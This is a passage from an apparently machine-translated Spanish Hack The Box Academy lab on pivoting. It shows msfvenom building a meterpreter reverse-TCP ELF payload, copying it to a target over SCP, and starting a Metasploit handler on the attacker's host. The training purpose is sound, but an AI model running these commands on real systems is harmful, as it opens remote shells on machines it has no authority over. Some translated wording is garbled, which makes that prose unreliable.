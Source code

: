 ```shell-session
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

---

## Configuración de pivotación - MetaSploit

Alternativamente, podemos configurar nuestro pivote usando MetaSploit, como se cubre en el[Túnel de meterpreter y reenvío de puertos](https://academy.hackthebox.com/module/158/section/1428)Sección del módulo de pivote. Para lograr esto, podemos hacer lo siguiente:

Primero, genere una carcasa inversa en formato Elfo usando`msfvenom`.

  Recopilación de información interna

```shell-session
xnoxos@htb[/htb]$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=443 -f elf > shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```

A continuación, transfiera el host al objetivo. Como tenemos SSH, podemos subirlo al objetivo usando SCP.

  Recopilación de información interna

```shell-session
xnoxos@htb[/htb]$ scp -i dmz01_key shell.elf root@10.129.203.111:/tmp

shell.elf                                                                      100%  207     1.6KB/s   00:00
```

Ahora, configuraremos el MetaSploit`exploit/multi/handler`.

  Recopilación de información interna

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```
